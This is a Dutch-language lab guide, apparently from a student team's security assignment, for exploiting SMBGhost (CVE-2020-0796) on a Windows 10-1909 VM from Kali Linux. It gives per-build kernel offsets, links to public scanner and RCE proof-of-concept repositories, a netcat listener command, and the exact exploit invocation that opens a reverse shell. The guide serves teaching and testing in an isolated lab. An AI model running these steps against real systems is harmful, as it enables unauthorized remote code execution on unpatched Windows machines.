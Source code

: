 # Handleiding

SMBGhost Vulnerability  
CVE-2020-0796

Doel: Remote Excecution   
Target: Windows 10-1909  

Team:   
Demi De Fré   
Abdul Rehman Shafaquet    
Arthur Neirynck  

## Deployment stappenplan

### Stap 1: Downloaden ISO & VDI
* Download het .vdi bestand voor de [Kali Linux](https://www.osboxes.org/kali-linux/) VM.  
* Download het .ISO bestand voor de [Windows 10-1909](https://archive.org/download/win-10-1909-english-x-64) VM.  

### Stap 2: Vboxmanage automatisatie script's 
* Open een command prompt naar keuze.
* Run het bash script `./kali.sh` om de Kali Linux VM aan te maken.
* Run het bash script `./windwos1909.sh` om de Windows VM aan te maken.

### Stap 3: Inloggen op de VM's
* Open de Kali en Windows VM
* Kali inloggegevens (default)
* username: osboxes
* wachtwoord: osboxes.org
* Bij de windows zijn er geen inloggegevens nodig.

### Algemeen
Alle informatie en documentatie is beschikbaar op onze github repo:
[Github team](https://github.com/abdulnsh/cybersecurity_vr_opdracht)

## Cheatsheet aanval

### IP-tabel

| VM              | IP Address   |
| ----------------| ------------ |
| Windows 10-1909 | 192.168.1.17 |
| Kali Linux VM   | 192.168.1.20 |

## Inleiding

De scripts die we gebruiken voor de aanval zijn beschikbaar op onze [Github](https://github.com/abdulnsh/cybersecurity_vr_opdracht).  

Hier vermelden we toch voor de zekerheid onze gebruikte bronnen: 
- [RCE-script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)
- [Vulnerability Scanner](https://github.com/ButrintKomoni/cve-2020-0796)
- [](https://github.com/jiansiting/CVE-2020-0796-Scanner) (Deze hebben we niet echt nodig, maar is er toch voor zekerheid)   

### Offsets informatie
Voor elke versie van Windows 10 hebben we eerst hun offsets nodig. De offsets zijn specifieke waarden dat gebruikt moeten worden in het main Python script ('SMBLeedingGhost.py') voor de exploit. De offsets worden dan gebruikt om het main script aan te passen om een successvolle RCE uit te voeren.  

calculate_target_offsets.bat is een script dat die offsets kan berekenen en die gelden voor elke Windows 10 die dezelfde versie runt. Hier zijn enkele offset-waarden:

| Windows 10 (Version 1909) Builds | V10.0.18363.418 | V10.0.18363.535 - V10.0.18363.628 | V10.0.18363.693 | V10.0.18363.752 | V10.0.18363.365 |
| -------------------------------- | --------------- | --------------------------------- | --------------- | --------------- | --------------- |
| srvnet!SrvNetWskConnDispatch     | 0x2D170         | 0x2D170                           | 0x2D170         | 0x2D170         | 0x2D170         |
| srvnet!imp_IoSizeofWorkItem      | 0x32210         | 0x32210                           | 0x32210         | 0x32210         | 0x32210         |
| srvnet!imp_RtlCopyUnicodeString  | 0x32288         | 0x32288                           | 0x32288         | 0x32288         | 0x32288         |
| nt!IoSizeofWorkItem              | 0x12C380        | 0x12C400                          | 0x6D7A0         | 0x12C410        | 0x12C370        |
| nt!MiGetPteAddress               | 0xBADC8         | 0xBA9F8                           | 0xF1D28         | 0xBA968         | 0xBAFA8         |

Voor onze versie (18363.365) hebben we deze nodig :

- 'srvnet!SrvNetWskConnDispatch': 0x2D170,
- 'srvnet!imp_IoSizeofWorkItem': 0x32210,
- 'srvnet!imp_RtlCopyUnicodeString': 0x32288,
- 'nt!IoSizeofWorkItem': 0x12C370,
- 'nt!MiGetPteAddress': 0xBAFA8

### Stap 1: Git clone op Kali Linux 
* Clone de volgende github repository in de Desktop :

1. `cd Desktop`
2. `git clone https://github.com/ButrintKomoni/cve-2020-0796` (dit is onze scanner)
3. `git clone https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master` (dit is onze RCE exploit)
```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ tree
.
├── CVE-2020-0796-RCE-POC
│   ├── README.md
│   ├── SMBleedingGhost.py              - > dit is onze main script voor RCE
│   ├── calc_target_offsets.bat
│   ├── demo.gif
│   ├── smbghost_kshellcode_x64.asm
│   └── tools
│       ├── cdb.exe
│       ├── dbghelp.dll
│       ├── dumpbin.exe
│       ├── link.exe
│       ├── msvcp140.dll
│       ├── symsrv.dll
│       ├── tbbmalloc.dll
│       ├── vcruntime140.dll
│       └── vcruntime140_1.dll
└── cve-2020-0796
    ├── README.md
    └── cve-2020-0796-scanner.py            -> dit is onze scanner

4 directories, 16 files
```

### Stap 2: Vulnerability check
* We controleren eerst of de target (Windows 10-1909) vulnerable is met een [python scanner script](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/scanner/cve-2020-0796-scanner.py).  
```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```
* We gebruiken het ip adres van de target als parameter.

### Stap 3: Remote excecution uitvoeren
* Juiste target offsets die passen voor slachtoffer zijn windows versie
*Open een terminal op de Kali Linux en voer de volgende commando's uit.
* `ncat -lvp <port>` : Dit zal onze toegang zijn naar onze windows (dit kan ncat -lvp 1234 zijn)
* `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`
* `target_ip` = 192.168.1.17  
  `reverse_shell_ip` en `reverse_shell_port` zijn het ip address en poort waarop ncat luistert.
*Het commando ziet er dus als volgt uit: `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

### Stap 4: Resultaat
* Na een tijdje zal de ncat terminal waarop er geluisterd wordt, veranderen naar een Windows 10 shell.
* Nu heb je vanop afstand toegang, via een cmd, tot de target en kan je willekeurige code uitvoeren.

![alt text](images/image-2.png)

![alt text](images/image-1.png)

![alt text](images/image-3.png)










